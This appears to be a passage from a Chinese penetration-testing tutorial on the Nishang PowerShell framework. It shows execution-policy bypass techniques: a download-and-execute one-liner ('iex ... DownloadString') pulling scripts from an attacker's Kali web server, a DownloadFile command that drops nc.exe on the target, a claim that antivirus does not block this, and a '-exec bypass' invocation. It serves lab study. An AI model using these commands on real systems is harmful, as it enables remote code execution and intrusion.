 ```
Function        ProcessWinSCPLocal                                 0.0        nishang
Function        Set-DCShadowPermissions                            0.0        nishang
Function        Set-RemotePSRemoting                               0.0        nishang
Function        Set-RemoteWMI                                      0.0        nishang
Function        Show-TargetScreen                                  0.0        nishang
Function        Speak                                              0.0        nishang
```

**之后在powershell 命令行中直接调用就好了。**

## 0X03 不开放执行策略的执行方式

### 远程调用执行：

**kali上开一个web服务器用于传输nishang**

**在nishang的路径下开一个简单的php服务器（当然也可以是python或者其他的）：**

**kali:**

```
php -S 0:80
```

**windos10:**

```
iex (New-Object net.webclient).DownloadString('http://192.168.31.113/Gather/Check-VM.ps1');Check-VM
```

**即可从远程加载chek-vm.ps1 模块，并执行其中 Check-VM函数 ，这样做是不需要Set-ExecutionPolicy Unrestricted就可以直接执行。并且windowsdenfender和360都不会阻止**

**这个模块是用来检查机器是否是虚拟机，这里成功检测出这个环境是vmware的虚拟机**

![image-20240309174637161](./resources/images/5-1.png)

**iex 是 Invoke-Expression的缩写 直接将字符串等当作命令来进行解析。值得注意的是：这里用的powershell命令的另一个函数Downloadfile 是很好的向windows 传输文件的方法**

`(New-Object net.webclient).Downloadfile('[http://192.168.31.113/nc.exe','nc.exe');](http://192.168.31.113/Gather/Check-VM.ps1');Check-VM)`

### 本地执行方式

**这种方式使用于已经将脚本上传到目标机器上的情况（如果有杀毒软件的话基本都会被清除掉）**

**1 调用具体脚本：**

```
powershell –exec bypass –Command "&{Import-Module 'D:\phpstudy\WWW\DVWA\hackable\uploads\nishang-master\Gather\Check-VM.ps1';Check-VM}"
```
